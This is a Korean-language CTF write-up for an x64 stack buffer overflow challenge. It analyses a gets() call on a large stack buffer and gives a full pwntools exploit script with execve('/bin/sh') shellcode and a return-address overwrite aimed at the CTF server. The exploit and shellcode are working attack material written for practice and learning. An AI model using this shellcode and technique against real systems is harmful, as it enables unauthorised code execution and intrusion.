


## 배경지식     
이 전 문제인 x64 buffer Overflow 문제를 풀어오거나 아님 write-up을 보고 오면 이해가 좀 더 쉬울것이다.    

-------------------------------------- 
## 문제풀이    
일단 문제를 먼저 실행해보자.    
    
buf의 주소를 주는데, 주소가 바뀐다.   
IDA로 파일을 뜯어보면,  
    
rbp-6D30 위치에 문자열 변수가 있고,  gets 함수가 있는 걸로 봐선 ret까지 BOF를 일으켜 쉘코드를 넣으면 되는 방식인듯하다.    
     
문자열 v4의 주소를 출력하고 gets(&v4), 크기제한이 없으므로 v4에 쉘코드와 ret까지 BOF를 일으키고, ret에 출력해준 v4의 주소를 넣으면 될 것 같다. 
이때 약간 헷갈릴 수 있는 것이 이 파일은 64비트 기반이기 때문에 sfp, ret등 주소의 길이가 8byte라는 것만 잊지 않으면 된다.   
v6의 위치가 rbp-6D30이므로 6D30-쉘코드 길이 + sfp만큼 BOF를 일으키면 될 것이다!

payload를 짜보면 payload = Shell(31) + Dummy(27,929) + bufAddr(8) 

## 코드   
```python   
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3005)
shell = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
lange = 0x6D30
p.recvuntil("buf: ")
addr = int(p.recv(14),16)
payload = shell
payload+='B'*(lange - 31+8)
payload+=p64(addr)
p.sendline(payload)
p.interactive()
```   

